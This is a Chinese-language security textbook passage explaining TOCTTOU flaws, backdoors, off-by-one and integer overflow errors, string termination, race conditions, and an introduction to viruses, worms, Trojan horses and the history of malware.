访问控制是计算机安全的基础部分；我们要确保只有那些本该访问对象的主体才被允许访问。每一次请求的访问都必须受访问策略管控，该策略规定谁被允许访问什么；然后请求必须由访问策略执行代理进行中介。但当访问未被普遍检查时，就会发生不完全中介问题。**检查时刻到使用时刻（TOCTTOU）**缺陷涉及在中间进行“调包计”的中介。

***

**在访问检查和使用之间，必须保护数据防止被更改。**

***

为了理解此缺陷的性质，请考虑一个人购买一尊价值 `$100` 雕塑的情形。买方拿出五张 `$20` 钞票，在卖方面前仔细清点，然后放在桌上。接着卖方转身去开收据。趁卖方背过身时，买方拿回一张 `$20` 钞票。当卖方转回身时，买方递过那叠钞票，拿走收据，带着雕塑离开了。在安全检查时刻（清点钞票）和访问发生时刻（用钞票交换雕塑）之间，条件发生了变化：被检查的内容在对象（即雕塑）被访问时已不再有效。

类似的情况也可能发生在计算系统中。假设对文件的访问请求以数据结构形式呈现，其中包含文件名和访问模式。此类结构的一个示例如图 3-12 所示。


**图 3-12** 文件访问数据结构

该数据实质上是一张工作票，需要授权盖章；一经授权，即被放入待办事项队列。通常，访问控制中介进程接收该数据结构，判断是否应允许访问，然后要么拒绝访问并停止处理，要么允许访问并将数据结构转发给文件处理程序进行处理。

为执行此授权序列，访问控制中介必须在表中查找文件名（以及用户身份和任何其他相关参数）。中介可将表中的名称与数据结构中的文件名进行比较，以判断访问是否恰当。更有可能的是，中介会将文件名复制到其自己的本地存储区，并从那里进行比较。使用副本进行比较会将数据结构留在用户区域，处于用户的控制之下。

此时，不完全中介缺陷即可被利用。当中介正在检查文件 `my_file` 的访问权限时，用户可将文件名描述符改为 `your_file`，即图 3-13 所示的值。中介读取工作票一次后，本不应在批准前重读该票；中介会批准访问，并将现已修改的描述符发送给文件处理程序。


**图 3-13** 工作描述符的未经检查的更改

之所以称为检查时刻到使用时刻缺陷，是因为它利用了两个动作（检查和使用）之间的延迟。即，在访问被检查的时刻与检查结果被使用的时刻之间，发生了变更，导致检查结果失效。

#### 安全启示

这里的安全隐患显而易见：检查一个动作却执行另一个动作，是无效访问控制的典型例子，会导致机密性失效、完整性失效，或两者兼有。每当出现时间滞后或控制丢失时，我们都必须保持警惕，确保在该间隔期间没有任何途径能篡改检查结果。

#### 对策

幸运的是，根据我们的安全工具——访问控制，有办法防止对时间滞后的利用。在任何控制丢失期间，关键参数不得暴露。访问检查软件必须拥有请求数据的所有权，直到请求的动作完成。另一种保护技术是确保串行完整性，即在验证期间不允许任何中断（控制丢失）。或者，验证例程可以最初将数据从用户空间复制到例程自己的区域——使其脱离用户的触及范围——并对副本执行验证检查。最后，验证例程可以密封请求数据以检测修改。实际上，所有这些保护方法都是对参考监视器防篡改标准的扩展：访问控制决策所依据的数据以及决策结果，必须位于受控程序的域之外。

#### 未文档化的访问点

接下来我们描述一种常见的编程情况。在程序开发和测试期间，程序员需要一种访问模块内部的方法。也许结果计算不正确，所以程序员想要一种在执行期间询问数据值的方法。也许控制流没有按预期进行，程序员需要向例程输入测试值。也可能是程序员想要一种特殊的调试模式来测试条件。无论出于何种原因，程序员创建了一个未文档化的入口点或执行模式。

这些情况在程序开发期间是可以理解的。然而，有时程序员在程序从开发阶段转为产品阶段时，忘记移除这些入口点。或者程序员决定保留它们以便日后进行程序维护；程序员可能认为没人会发现这个特殊入口。程序员可能很天真，因为如果存在漏洞，总有人可能会发现它。关于一个特别复杂的后门描述，请参见侧边栏 3-4。

***

**侧边栏 3-4 哦，看：复活节兔子！**

微软的 Excel 电子表格程序，在一个旧版本 Excel 97 中，具有以下功能。

- 打开一个新工作表
- 按 `F5`
- 输入 `X97:L97` 并按回车
- 按 Tab
- 按住 `<Ctrl-Shift>` 并点击图表向导

执行该操作的用户会突然发现电子表格消失了，屏幕充满了飞机驾驶舱的图像！使用方向键，用户可以驾驶模拟飞机在太空中飞行。再按几个键，用户的屏幕似乎会沿着两侧有面板的走廊向下移动，面板上刻着该版本 Excel 开发人员的名字。

这样的代码被称为**复活节彩蛋**，源于装有儿童玩具的巧克力糖蛋。这并非唯一带有复活节彩蛋的产品。旧版本的 Internet Explorer 也有类似功能，通过互联网搜索可以找到其他例子。虽然大多数复活节彩蛋似乎无害，但它们引发了一个严肃的问题：如果如此复杂的功能能在未被公司质量控制小组拦截的情况下嵌入商业软件产品中，是否还有其他漏洞，潜在地带有安全漏洞？

***

### 后门

未文档化的访问点被称为**后门**或**陷阱门**。这样的入口可以将控制权转移到程序员想要的任何具有任何特权的点。

在网络上，很少有东西能长久保密；有人会发现开口并加以利用。因此，编写一个所谓的秘密入口点，就是为不速之客敞开大门。

***

**秘密后门终将被发现。安全不能依赖这种保密性。**

***

后门的另一个例子是外部人员在攻陷一台机器后使用的。在许多情况下，获得机器访问权的入侵者希望稍后返回，要么是为了扩大对该机器的攻击，要么是将该机器作为跳板，对第一台机器有访问权的其他机器发起攻击。有时第一台机器对其他机器拥有特权访问，因此入侵者在探索这些新机器的能力时可以获得增强的权限。为了方便返回，攻击者可以在被攻陷的机器上创建一个新账户，使用只有攻击者知道的用户名和密码。

#### 防范未授权进入

未文档化的入口点是一种不良编程实践（但仍会被使用）。它们应在软件开发过程的严格代码审查中被发现。不幸的是，两个因素阻碍了这一理想。

首先，由于未文档化，这些入口点在源代码或任何开发文档中都不会被清晰标记。因此，代码审查人员在审查时可能无法识别它们。

其次，此类后门通常在常规代码开发之后、测试期间甚至维护期间添加，因此即使熟练审查人员的审视也无法发现它们。添加此类代码的维护人员很少是安全工程师，因此他们不习惯从漏洞和故障模式的角度思考。例如，正如安全撰稿人 Brian Krebs 在其博客 *Krebs on Security* 中于 2013 年 1 月 24 日所报道的，奥地利维也纳 SEC Consult Vulnerability Labs 的安全研究员 Stefan Viehböck 发现，Barracuda Networks（防火墙和其他网络设备制造商）的某些产品接受来自用户名“product”且无密码的远程（网络）登录。插入后门的工程师可能认为，通过限制接受登录的地址范围，该活动受到了保护：只有来自分配给 Barracuda 的地址范围的登录才会成功。然而，该工程师未能考虑到（而一个优秀的安全工程师会发现）指定的范围还包括其他数百家公司。

因此，防止或锁死这些脆弱的入口很困难，特别是因为编写它们的人可能不了解其安全隐患。

### 循环偏移错误

学习编程时，新手很容易犯**循环偏移错误**：错误计算结束循环的条件（重复执行 `i <= n` 还是 `i < n`？重复直到 `i = n` 还是 `i > n`？），或忽略数组 `A[0]` 到 `A[n]` 包含 `n+1` 个元素。

通常，程序员未能正确思考循环何时该停止，这是程序员的过错。其他时候，问题是将实际数据与控制数据（有时称为元数据或关于数据的数据）合并了。例如，一个程序可能管理一个动态增减的列表。设想客户服务部门未解决问题的列表：今天有五个未决问题，编号为 10、47、38、82 和 55；当天，问题 82 得到解决，但问题 93 和 64 被添加到列表中。程序员可能创建一个简单的数据结构——数组——来保存这些问题编号，并合理地指定不超过 100 个编号。但为了便于管理编号，程序员可能还会保留数组的第一个位置来存放未决问题的计数。因此，在第一种情况下，数组实际保存六个元素：5（计数）、10、47、38、82 和 55；在第二种情况下有七个元素：6、10、47、38、93、55、64，如图 3-14 所示。一个 100 元素的数组显然无法容纳 100 个数据项加一个计数。


**图 3-14** 数组中同时包含数据和已用单元格数量

在这个简单的例子中，只要同时打开的问题不超过 99 个，程序就可能长时间正确运行，但添加第 100 个问题会导致程序失败。当过程编辑或重新格式化输入时，会出现类似的问题，这可能会将单字符序列变为两个或更多字符（例如，某些字体中可用的单字符省略号符号“...”被文字处理器转换为三个连续的句点，以适应功能更有限的字体）。这些未预料到的大小变化会导致更改后的数据不再适合原本存储它的空间。更糟糕的是，错误似乎是偶发的，仅当数据量超过分配空间的大小时才会发生。

遗憾的是，防范这些错误的唯一手段是正确编程：始终检查以确保容器足够大，能容纳它所要包含的数据量。

### 整数溢出

**整数溢出** 是一种特殊类型的溢出，因为其结果与其他类型的溢出略有不同。**整数溢出** 发生的原因是存储位置具有固定、有限的大小，因此只能容纳不超过特定限制的整数。是否发生溢出取决于数据值是否为有符号数（即是否保留一位来指示数字是正还是负）。表 3-1 给出了几种内存位置（字）大小的有符号和无符号值的范围。


**表 3-1** 按字长划分的值范围

当计算导致值超过表 3-1 中的某个限制时，多余的数据不会溢出到相邻的数据项中去影响它们。这是因为算术运算是在处理器的硬件寄存器中执行的，而不是在内存中。相反，要么发出硬件程序异常或故障条件信号，导致转移到错误处理例程，要么丢失数据项最高有效端的多余数字。因此，对于 8 位无符号整数，`255 + 1 = 0`。如果程序使用 8 位无符号整数作为循环计数器，而循环的停止条件是 `count = 256`，那么该条件永远不会为真。

检查这种类型的溢出很困难，因为只有当结果发生溢出时，程序才能确定溢出发生了。例如，使用 8 位无符号值，程序可以确定第一个操作数是 `147`，然后检查第二个操作数是否大于 `108`。这种测试需要双倍的工作：首先确定在范围内的最大第二个操作数，然后计算总和。某些编译器会生成代码来测试整数溢出并引发异常。

### 未终止的以空字符结尾的字符串

长字符串是许多缓冲区溢出的根源。有时攻击者会故意将过长的字符串输入处理程序，以观察程序是否以及如何失败，拨号程序就是这种情况。其他时候，漏洞是意外造成的：程序错误地覆盖了字符串的一部分，导致字符串被解释为比实际更长。这些错误实际上如何发生取决于字符串如何存储，而这取决于所涉及的编程语言、应用程序和操作系统。

如图 3-15 所示，变长字符（文本）字符串有三种定界方式。最简单的方法由 Basic 和 Java 使用，即为声明的最大字符串长度分配空间，并将当前长度存储在独立于字符串数据的表中，如图 3-15(a) 所示。


**图 3-15** 变长字符串表示法


某些系统和语言（特别是 Pascal）在字符串前面加上一个整数来表示字符串的长度，如图 3-15(b) 所示。在这种表示法中，字符串“Hello”将表示为 `0x0548656c6c6f`，因为 `0x48`、`0x65`、`0x6c` 和 `0x6f` 分别是字符“H”、“e”、“l”和“o”的内部表示。字符串的长度是第一个字节 `0x05`。有了这种表示法，字符串缓冲区溢出很少见，因为处理程序首先接收长度，并可以验证是否存在足够的空间来容纳该字符串。（这种表示法容易受到我们前面描述的问题的影响，即在规划字符串空间时未能包含长度元素。）即使长度字段被意外覆盖，读取字符串的应用程序也只会读取写入长度字段中指定数量的字符。但因此字符串长度的限制就变成了能放入长度字段的最大数字，对于 1 字节长度可达 `255`，对于 2 字节长度可达 `65,535`。

表示字符串的最后一种模式，通常用于 C 语言，称为**以空字符结尾**，意味着字符串的结尾由一个空字节（即 `0x00`）表示，如图 3-15(c) 所示。在这种形式下，字符串“Hello”将是 `0x48656c6c6f00`。以这种方式表示字符串可能导致缓冲区溢出，因为处理程序只有在接收完整个字符串后，才能通过确定字符串的结尾来确定其长度。这种格式容易被误解。假设一个错误的进程碰巧覆盖了字符串的结尾及其终止空字符；在这种情况下，读取字符串的应用程序将继续读取内存，直到碰巧出现一个空字节（来自其他某个数据值），这可能在字符串末尾之后的任意距离处。因此，应用程序可能会多读取 `1`、`100` 到 `100,000` 个或更多额外字节，直到遇到一个空字节。

缓冲区溢出问题也出现在计算中。移动和复制字符串的函数在将参数传递给这些函数时，可能会导致栈或堆中的溢出。

### 参数长度、类型和数量

数据长度错误的另一个来源是过程参数，来自 Web 或传统应用程序。问题的来源包括：

*   **参数过多**。例如，即使应用程序只接收三个传入参数，该应用程序也可能通过使用调用栈帧中传入的合法参数旁边的杂散数据，错误地写入四个传出结果参数。（相反的问题，即输入多于应用程序预期的情况，问题较小，因为被调用应用程序的输出将保持在调用者分配的空间内。）
*   **错误的输出类型或大小**。调用过程和被调用过程需要就交换的数据值的类型和大小达成一致。如果调用者为两字节整数提供空间，但被调用例程产生四字节结果，那多余的两个字节会去往某处。或者调用者可能期望以 1970 年 1 月 1 日后的天数作为数字形式的日期结果，但产生的结果却是“dd-mmm-yyyy”形式的字符串。
*   **字符串过长**。过程接收的输入字符串可能比它能处理的要长，或者它在输出时可能产生过长的字符串，这两种情况都会导致溢出条件。

过程通常拥有或分配临时空间来操作参数，因此临时空间必须足够大以容纳参数的值。如果传递的参数是以空字符结尾的字符串，则在找到尾随空字符之前，过程无法知道字符串有多长，因此非常长的字符串会耗尽缓冲区。

### 不安全的实用程序

#### 编程语言与缓冲区溢出

编程语言，尤其是 C 语言，提供了一组实用程序库来协助常见活动，例如移动和复制字符串。在 C 语言中，函数 `strcpy(dest, src)` 将字符串从 `src` 复制到 `dest`，遇到空字符停止，但这有可能导致已分配内存溢出。一个更安全的函数是 `strncpy(dest, src, max)`，它最多复制到空分隔符或 `max` 个字符，以先到者为准。

尽管还有其他溢出问题的来源，但从这些描述中你可以很容易地看出为什么会发生如此多的缓冲区溢出问题。接下来，我们将描述几个经典且重大的漏洞利用案例，缓冲区溢出是其重要促成原因。通过这些例子，你可以看到一个看似微不足道的程序错误可能造成多大的危害。

## 竞态条件

顾名思义，竞态条件意味着两个进程在同一时间间隔内进行竞争，且这种竞争影响了计算任务的完整性或正确性。例如，两个设备可能同时向操作系统提交对特定内存块的竞争请求。在两步请求过程中，每个设备首先询问该大小的内存块是否可用，如果答案是肯定的，则为自己保留该块。根据步骤的时序，第一个设备可能请求该块，得到“可用”的回答，但随后却无法获得该块，因为它已被分配给第二个设备。在这样的情况下，两个请求者“竞争”以获取资源。竞态条件最常发生在操作系统中，但也可能发生在多线程或协作进程中。

### 非同步活动

在 `竞态条件` 或 `序列化缺陷` 中，两个进程并发执行，而计算结果取决于两个进程指令的执行顺序。

---

**竞态条件：程序行为取决于两个过程执行顺序的情况**

---

想象一个航空公司订票系统。两个代理 A 和 B 同时尝试为乘客预订 1 月 10 日 45 号航班的一个座位，该航班恰好只剩一个座位。如果代理 A 在代理 B 开始预订前完成了预订，A 将获得该座位，而 B 会被告知无座位可用。在图 3-16 中，我们展示了这种情况的时间线。


**图 3-16** 座位请求与预订示例

然而，你可以想象这样一种情况：A 询问座位是否可用，系统回答是，A 继续完成该座位的购买。与此同时，在 A 询问并尝试完成购买之间，代理 B 询问座位是否可用。系统设计者知道代理有时会询问座位但从不完成预订；他们的客户在探索选项后往往会选择不同的行程。然而，为了后续参考，预订软件会给每个代理一个参考号，以便服务器轻松地将预订与特定航班关联。因为 A 尚未在系统收到来自 B 的请求前完成交易，系统告诉 B 该座位可用。如果系统设计不当，两个代理都可能完成各自的交易，导致两名乘客被确认占用同一个座位（这至少会让人非常不舒服）。我们在图 3-17 中展示了这条时间线。


**图 3-17** 超售示例

竞态条件难以检测，因为它取决于两个进程的执行顺序。但进程的执行顺序可能取决于许多其他因素，例如系统总负载、可用内存空间大小、每个进程的优先级，或发送给进程的系统中断的数量和时机。在测试期间，甚至在很长一段时间的执行中，条件可能永远不会导致这种特定的过载情况发生。鉴于这些困难，程序员可能很难设计测试用例来覆盖竞态可能发生的所有可能条件。事实上，该问题可能发生在两个恰好访问某些共享资源的独立程序之间，而这正是每个程序的程序员从未预料到的。

如今的大多数计算机都配置了由所有者选择的应用程序，专门针对所有者的活动和需求量身定制。这些应用程序，以及操作系统和设备驱动程序，很可能由不同的供应商生产，具有不同的设计策略、开发理念和测试协议。随着这种系统异构性的增加，竞态条件发生的可能性也随之增加。

### 安全隐患

从航空订票示例中可以明显看出竞态条件的安全隐患。两个进程之间的竞态条件可能导致不一致、意外且因此错误的结果——这是完整性的失效。

当竞态条件发生在旧版 Tripwire 程序中时，也引发了另一个安全问题。Tripwire 是一种用于保护文件完整性的实用程序，在第 2 章中已介绍。作为其操作的一部分，它会创建一个临时文件，向其中写入其活动日志。在旧版本中，Tripwire (1) 为临时文件选定一个名称，(2) 检查文件系统以确保不存在同名文件，(3) 按该名称创建文件，(4) 稍后打开文件并写入结果。Wheeler [WHE04] 描述了恶意进程如何通过在步骤 2 和 3 之间更改新创建的临时文件使其指向恶意进程希望 Tripwire 通过覆盖来销毁的任何其他系统文件，从而颠覆 Tripwire 的步骤。

在这个例子中，安全隐患显而易见：通过精心安排时机利用步骤 2 和 3 之间固有的竞态条件（如图 3-18 所示），任何文件都可能被破坏。覆盖文件看似徒劳或自毁，但攻击者能获得巨大收益。例如，假设攻击者想隐藏攻击发生时还有哪些其他进程处于活动状态（这样安全分析师就不会知道是哪个程序导致了攻击）。对攻击者而言，一个绝佳的礼物是让一个无辜但拥有特权的实用程序来抹除进程激活的系统日志文件。通常该文件受到系统的良好保护，但在这种情况下，攻击者只需指向它，让 Tripwire 程序替其干脏活。


**图 3-18** 文件名竞态条件

---

**竞态条件取决于两个不同进程的顺序和时机，这使得这些错误难以发现（和测试）。**

---

如果恶意程序员行动过早，临时文件尚未创建；如果行动过晚，文件已创建并正在使用中。但如果程序员的时机介于过早和过晚之间，Tripwire 将天真地将其临时数据写入指向的任何文件中。尽管这种时机要求似乎是一个严重的限制，但攻击者拥有一个优势：如果攻击者太早，可以反复尝试，直到攻击成功或为时已晚。

因此，竞态条件难以检测；测试人员面临挑战，难以建立系统负载和时机所需的确切条件。出于同一原因，竞态条件威胁对攻击者来说也难以实施。尽管如此，如果存在竞态条件漏洞，它们也可能被利用。

我们在此介绍的漏洞——不完全中介、竞争条件、检查时刻到使用时刻（TOCTOU）以及未记录的访问点——均为可被利用以导致安全失效的缺陷。全书中我们将描述其他导致失效的根源，因为程序员有许多可被利用的过程节点和制造程序缺陷的机会。这些缺陷大多可能是因为程序员未能清晰、仔细地思考而造成的：简单的人为错误。然而，偶尔也会出现程序员恶意植入故意缺陷的情况。又或者，更有可能的是，攻击者发现了这些无心的程序错误并将其用于恶意目的。在程序缺陷的描述中，我们已指出攻击者如何利用这些错误。在下一节中，我们将更详细地解释恶意代码可能造成的危害。

### 3.2 恶意代码——恶意软件

2010 年 5 月，杀毒厂商 AVG 的研究员 Roger Thompson 在美国雕刻印刷局（隶属于财政部）的网站上检测到了恶意代码 [MCM10]。该网站有两个特别受欢迎的板块：一是对新版 100 美元纸币设计的介绍，二是识别伪钞的步骤。

被篡改的网站包含一个指向乌克兰网站的隐藏调用，后者随即尝试利用已知漏洞，在毫无防备的用户机器上植入恶意代码。访问者会按预期下载图片和文本；但访问者看不见、也大概意料不到的是，他们同时还下载了一个额外的网页代码脚本，该脚本调用了乌克兰网站上的代码。

攻击源头未知；一些研究人员认为它被夹带在网站的追踪工具中，该工具用于统计和显示网页访问量。其他研究人员则认为，这是由作为财政部网站提供商的公司的配置缺陷引入的。

此次攻击有两个显著特征。首先，美国政府网站极少成为代码攻击的无意传播者，因为管理员会强力防护这些网站，使其能抵御攻击者。但正是这些特性让用户更愿意信任这些网站不含恶意代码，从而毫不犹豫地打开窗口下载内容，这反而使此类网站成为攻击者的靶子。

其次，此次攻击似乎使用了 Eleonore 攻击工具包 [FIS10]。该工具包是针对已知漏洞的攻击组合包（有些漏洞可追溯至 2005 年），整合成即买即用的套件。这是一种“点击即运行”式的应用，该售价 2000 美元的工具包自 2009 年以来以不同版本流传至今。每个售出的工具包预配置仅针对一个网站地址使用（尽管客户可购买额外地址），因此购买工具包的攻击者意在专门通过财政部网站发动攻击，或许是因为该网站在用户中具有极高的公信力。

就恶意代码攻击而言，这次算不上最复杂、最精密或破坏力最强，但它展示了几个重要特征，我们将在分析恶意代码（本章主题）时探讨这些特征。我们还将描述一些影响严重得多的其他恶意代码攻击。

恶意代码形式多样、名称各异。本章将探讨其中三种最常见的形式：病毒、特洛伊木马和蠕虫。它们之间的区别很小，我们无需对任何一段代码进行精确分类。更重要的是了解这三种攻击的本质：它们如何传播、能造成何种危害、以及如何加以控制。随后我们可将这些知识应用于其他类型的恶意代码，包括尚无通用名称的代码形式。

#### 恶意软件——病毒、特洛伊木马和蠕虫

**恶意代码**或**流氓程序**或**恶意软件**（MALicious softWARE 的缩写）是指由具有恶意意图的主体植入的、旨在导致意外或非预期效应的程序或程序片段的统称。该主体是程序的编写者或分发者。恶意意图将此类代码与无意错误区分开来，尽管两者确实可能产生相似且严重的负面影响。该定义也排除了巧合情况，即两个良性程序中的次要缺陷结合产生负面影响。在软件检查、评审和测试中发现的大多数缺陷不属于恶意代码；其成因通常是无意的。然而，无意的缺陷实际上可能引发与故意恶意相同的响应；良性的成因仍可能导致灾难性的后果。

> **恶意代码可以针对特定用户或用户群体，也可以面向所有人。**

您可能曾在某个时候受到过恶意软件的影响，要么是因为您的计算机被感染，要么是因为管理员正在清理感染造成的混乱，导致您无法访问受感染的系统。恶意软件可能由蠕虫或病毒引起，也可能两者皆非；感染的比喻往往贴切，但恶意代码的术语有时使用不够精确。在此我们区分应用于特定类型恶意软件的名称，但您应关注其方法和影响，而非名称。不管叫什么名字，病毒闻起来都同样邪恶。

**病毒**是一种能够自我复制并通过修改其他非恶意程序将恶意代码传递给它们的程序。“病毒”一词的由来是因为受感染程序的行为类似于生物病毒：它通过附着在程序上来感染其他健康的对象，并要么破坏该程序，要么与其共存。由于病毒具有隐蔽性，我们不能假设昨天干净的程序今天仍然干净。此外，良性程序可能被修改以包含病毒程序的副本，从而使受感染的良性程序本身开始表现为病毒，感染其他程序。感染通常以几何级数速率传播，最终接管整个计算系统并蔓延至其他连接系统。

> **病毒：具有恶意目的的代码；意在传播**

病毒可以是瞬态的，也可以是驻留的。**瞬态病毒**的生命周期取决于其宿主的生命周期；当其附着的程序执行时，病毒运行，当附着程序结束时，病毒终止。（在执行期间，瞬态病毒可能将感染传播给其他程序。）**驻留病毒**将自身定位在内存中；随后它可以保持活动状态或作为独立程序被激活，即使其附着的程序已结束。

蠕虫和病毒这两个术语常被混用，但它们实际上指代不同的事物。**蠕虫**是一种通过网络传播自身副本的程序。（John Shoch 和 Jon Hupp [SHO82]显然是首批描述蠕虫的人，有趣的是，蠕虫最初是为非恶意目的创建的。作为施乐帕洛阿尔托研究中心的研究人员，Shoch 和 Hupp 编写了第一个蠕虫程序，作为分布式计算的实验。）蠕虫与病毒的主要区别在于：蠕虫通过网络运作，而病毒可通过任何媒介传播（但通常使用复制的程序或数据文件）。此外，蠕虫作为独立程序传播自身副本，而病毒则作为附着于或嵌入其他程序的程序传播自身副本。

> **蠕虫：通过网络传播自身副本的程序**

传播自身副本似乎既无聊又可能带有自恋色彩。但蠕虫确实有着共同且有用的目的。互联网有多大？哪些地址正在使用？蠕虫程序（有时称为“爬虫”）会寻找可以在其上安装小段代码以收集此类数据的机器。这些代码项会向收集点回报它们发现的连接情况。正如我们在第 6 章所述，这种侦察也可能具有负面的安全目的；那些传播并收集数据的蠕虫不一定是邪恶的。

作为这类蠕虫的一个略有不同的例子，考虑一下搜索引擎如何知晓网络上的所有页面。**Bot**（robot 的缩写，即机器人），是一种蠕虫，被 Bing 和 Google 等搜索引擎主机大量使用。这些代理程序大军运行在它们能够安装自身的任何计算机上。它们的目的是持续扫描可访问的 Web 内容，并向控制器回报发现的任何新内容。通过这种方式，代理程序找到页面，其控制器随后对这些页面建立目录，使搜索引擎能在响应个人查询时返回这些结果。因此，当你发布一个新网页（或修改一个旧网页），其中包含你关于人们为什么喜欢花生酱的研究结果时，爬虫很快就会注意到该页面，并将该新页面的内容和位置告知其控制器。

**特洛伊木马** 是一种恶意代码，除了其主要效果外，还具有第二个不明显的恶意效果。该名称源于特洛伊战争的典故。传说希腊人在特洛伊人的防御墙外留下了一匹巨大的木马，以此欺骗特洛伊人。特洛伊人以为木马是礼物，将其拖入城内并置于显要位置。但天真的特洛伊人不知情，木马内藏着最勇敢的希腊士兵。夜间，希腊士兵从木马中下来，打开城门，向大军发出信号，表明攻入特洛伊的道路已然畅通。同理，特洛伊木马恶意软件在未被察觉的情况下潜入程序，随后产生不受欢迎的效果。

作为计算机特洛伊木马的一个例子，考虑一个登录脚本，它请求用户的标识和密码，将标识信息传递给系统其余部分进行登录处理，但也会保留一份副本供日后恶意使用。在这个例子中，用户只看到预期发生的登录过程，因此没有理由怀疑发生了任何其他不受欢迎的行为。

***

**特洛伊木马：表面效果良性但内藏隐蔽恶意效果的程序**

***

为了记住这三类恶意软件的区别，请理解：特洛伊木马表面上是一个有用的程序，但带有额外的、未文档化的（恶意）功能。它不一定试图传播。相比之下，**病毒** 是一种试图传播到其他计算机的恶意程序，同时也可能在其当前宿主上执行令人不快的操作。病毒不一定利用网络属性传播；它可以通过随便携设备传输的文档传播（比如你刚插入笔记本的那根内存棒！），或在文件打开时被触发传播到其他同类文件类型。然而，**蠕虫** 进行传播尝试则需要网络。

除了这基本术语外，恶意代码类型之间有很多相似之处。表 3-2 展示了许多其他类型的恶意代码。正如你所见，恶意软件类型在操作、传播和目的方面差异很大。这些术语中的任何一个都被通俗地用来描述恶意软件，你将遇到不精确且重叠的定义。确实，人们有时用 virus 作为恶意代码的一个方便的通用术语。再次提醒，命名法并不关键；影响和效果才是。争论某物是病毒还是蠕虫毫无意义；相反，我们专注于理解恶意软件实施其邪恶行为的机制。


**表 3-2** 恶意代码类型

在本章中，我们特别探讨病毒，因为它们复制和造成危害的能力让我们得以洞察恶意代码的两个方面。在本章其余部分，我们也可能使用通用术语 **malware** 来指代任何类型的恶意代码。你应该认识到，虽然我们主要关注这些代码形式的恶意方面以便识别和应对，但此处列出的并非所有活动都是始终恶意的。


# 安全公司 Kaspersky 每月都会报告其产品在用户计算机上检测到的前 20 位感染情况

参见 [`www.securelist.com/en/analysis`](http://www.securelist.com/en/analysis)。

例如在 2014 年 4 月，前 20 位中有 8 种广告软件攻击（推销无用或恶意程序的广告），9 种特洛伊木马或特洛伊木马传播程序，以及 2 种利用脚本攻击（我们也将在本章描述）。但排名第一的攻击类型是恶意 URL（占攻击总数的 81.73%），将在下一章描述。另一种衡量标准统计 Kaspersky 产品在受保护计算机上发现的恶意代码数量（即未被 Kaspersky 的邮件和互联网活动屏蔽拦截的恶意软件）。在前 20 种恶意软件类型中，有 5 种特洛伊木马，1 种特洛伊木马传播程序，8 种广告软件变体，2 种病毒，2 种蠕虫，以及 1 种 JavaScript 攻击。因此所有攻击类型都很重要，正如侧边栏 3-5 所示，通用恶意代码对计算产生了重大影响。

***

## 侧边栏 3-5 恶意软件的真实影响

衡量恶意软件的真实影响，尤其是财务方面的影响，具有挑战性，甚至不可能。除非法律要求，组织不愿报告违规行为，因为担心声誉、信用评级等受损。许多调查报告事件数量、财务影响和攻击类型，但总的来说它们是便利抽样调查，不一定代表真实情况。Shari Lawrence Pfleeger [PFL08]、Rachel Rue [RUE09] 和 Ian Cook [COO10] 更详细地描述了为什么这些报告虽有趣但不一定可信。

过去几年，Verizon 一直在研究许多愿意合作并提供数据的客户所经历的违规行为；Verizon 报告是当今为数不多的可信且可比的研究之一。虽然你应该记住，结果针对 Verizon 支持的客户类型，但这些结果对于说明恶意软件在各种情况下产生了严重影响仍然很有价值。

2014 年 Verizon 违规报告 [VER14] 显示，从 2010 年到 2013 年，以经济利益为动机的数据泄露比例从约 90% 下降到 55%，而以间谍活动为目的的违规比例从接近零上升到近 25%。尽管数字显示每年有一些波动，但总体趋势是经济利益动机下降，间谍活动动机上升。（Verizon 承认，部分增长无疑归因于更多报告合作伙伴的更全面报告；因此数据可能反映了来自更多来源的更好的数据收集。）

然而，不要被误导。间谍活动当然也有财务方面。销售点（结账柜台欺诈）的数据泄露成本比发明或定价策略的价值更容易计算。了解这些情况，可以帮助竞争对手从间谍活动目标手中赢得销售。

***

我们在详细讨论这些类型的恶意软件之前，先简要回顾一下恶意代码的悠久历史。随着时间的推移，随着计算模式本身从多用户大型机演变为单用户个人计算机，再到网络系统，最后到互联网，恶意代码的类型也随之演变。通过这一背景，您不仅能了解当今恶意代码的来源，还能理解它未来可能如何演变。

### 恶意代码的历史

大众文献和媒体持续强调恶意代码的影响，仿佛它是一种相对近期的现象。事实并非如此。弗雷德·科恩 [COH87] 有时被认为是病毒的发现者，但科恩只是给一种早已为人所知的现象起了个名字。例如，肖克和哈普 [SHO82] 发表了一篇关于蠕虫的论文，而肯·汤普森在 1984 年的图灵奖演讲“关于信任的思考” [THO84] 中，描述了可通过编译器传播的恶意代码。在该演讲中，他引用了一份更早的空军文件，即保罗·卡格和罗杰·谢尔撰写的 Multics 安全评估 [KAR74, KAR02]。事实上，关于恶意代码的参考文献至少可以追溯到 1970 年。威利斯·韦尔 1970 年的研究（于 1979 年公开发布 [WAR70]）和詹姆斯·P·安德森为美国空军撰写的规划研究 [AND72] *至今*，几十年后，仍能准确描述威胁、漏洞和程序安全缺陷，尤其是有意植入的缺陷。

或许，当今恶意代码的鼻祖是“达尔文”游戏，由 AT&T 贝尔实验室的维克·维索茨基、道格·麦克罗伊和罗伯特·莫里斯于 1962 年开发（详见 [ALE72]）。该程序不一定具有恶意，但肯定具有破坏性：它模拟计算机程序之间的战斗，目标是消灭对手的程序。这些参战程序拥有许多有趣的特性，包括繁殖和传播的能力，以及隐藏以逃避检测和清除的能力，所有这些都听起来像当前恶意代码的特性。

***

**恶意代码肯定可以追溯到 20 世纪 70 年代，甚至可能更早。其增长呈爆发式，但绝非近期才出现的现象。**

***

在 20 世纪 80 年代至 90 年代初，恶意代码主要通过感染介质（如可移动磁盘）或文档（如附加在文档和电子表格中的宏）通过电子邮件传输，在人与人之间传播。个体传播的主要例外是莫里斯蠕虫 [ROC89, SPA89, ORM03]，它通过当时尚年轻且规模较小的互联网——即 ARPANET 传播。（我们将在本章后面更详细地讨论莫里斯蠕虫。）

到了 90 年代末，随着互联网的普及，利用互联网传播恶意代码的情况也随之激增。网络传播变得普遍，导致了 Melissa（1999 年）、ILoveYou（2000 年）、Code Red 和 NIMDA（2001 年）的出现，这些程序感染了成百上千万——甚至可能数百万——台系统。

恶意软件持续变得更加复杂。例如，Code Red 的一个特征——其后继者 SoBig 和 Slammer（2003 年）以及随后的大多数恶意软件也具备这一特征——就是利用已知的系统漏洞，这些漏洞的补丁早已分发，但系统所有者未能应用这些防护补丁。2012 年，安全公司 Solutionary 分析了黑客使用的 26 个流行工具包，发现被利用的漏洞中有 58% 超过两年历史，有些甚至可以追溯到 2004 年。

***

### 零日攻击

**零日攻击**：利用产品漏洞的活跃恶意软件，而制造商尚无可用的对策。

***

